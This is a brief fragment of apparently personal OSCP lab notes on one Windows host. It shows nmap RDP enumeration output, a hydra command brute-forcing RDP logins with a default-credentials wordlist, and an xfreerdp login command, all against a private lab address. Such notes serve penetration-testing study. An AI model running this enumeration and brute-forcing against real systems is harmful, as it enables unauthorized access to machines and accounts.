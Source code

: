 |   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: MS01
|   DNS_Domain_Name: oscp.exam
|   DNS_Computer_Name: **MS01.oscp.exam**
|   DNS_Tree_Name: oscp.exam
|   Product_Version: 10.0.19041
|_  System_Time: 2023-11-06T18:19:03+00:00

Got a computer name and a domain `MS01.oscp.exam`


```sh
nmap --script "rdp-*" -p 3389 -T4 192.168.128.101
```
	PORT     STATE SERVICE
	3389/tcp open  ms-wbt-server
	| rdp-enum-encryption: 
	|   Security layer
	|     CredSSP (NLA): SUCCESS
	|     CredSSP with Early User Auth: SUCCESS
	|_    RDSTLS: SUCCESS
	| rdp-ntlm-info: 
	|   Target_Name: OSCP
	|   NetBIOS_Domain_Name: OSCP
	|   NetBIOS_Computer_Name: MS01
	|   DNS_Domain_Name: oscp.exam
	|   DNS_Computer_Name: MS01.oscp.exam
	|   DNS_Tree_Name: oscp.exam
	|   Product_Version: 10.0.19041
	|_  System_Time: 2023-11-07T06:15:33+00:00

Hydra RDP Brute
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/db2-betterdefaultpasslist.txt 192.168.128.101 rdp
```

Connection to RDP
```sh
xfreerdp /compression +auto-reconnect /u:guest /d:oscp.com /v:192.168.128.101
```
